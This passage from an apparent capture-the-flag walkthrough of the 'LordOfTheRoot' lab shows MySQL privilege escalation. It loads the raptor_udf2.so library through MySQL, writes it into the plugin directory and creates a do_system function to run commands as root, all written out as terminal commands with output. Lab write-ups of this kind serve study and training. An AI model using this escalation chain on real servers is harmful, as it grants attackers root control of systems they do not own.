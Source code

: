 We connect to mysql database. 

```bash
smeagol@LordOfTheRoot:~$ mysql -u root -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 5130
Server version: 5.5.44-0ubuntu0.14.04.1 (Ubuntu)

Copyright (c) 2000, 2015, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
mysql>
```

We switch to the MySQL database.

```bash
mysql> use mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql>
```

We create a table to hold the exploit code.

```bash
mysql> create table foo(line blob);
Query OK, 0 rows affected (0.01 sec)
```

We import the exploit inserting its content into the table.

```bash
mysql> insert into foo values(load_file('/home/smeagol/raptor_udf2.so'));
Query OK, 1 row affected (0.01 sec)
```

We select the binary content and dump it into the plugins directory.

```bash
mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
Query OK, 1 row affected (0.01 sec)
```

We create a function to call the exploit.

```bash
mysql> create function do_system returns integer soname 'raptor_udf2.so';
Query OK, 0 rows affected (0.01 sec)


The following statement can be used to execute system commands as root
```
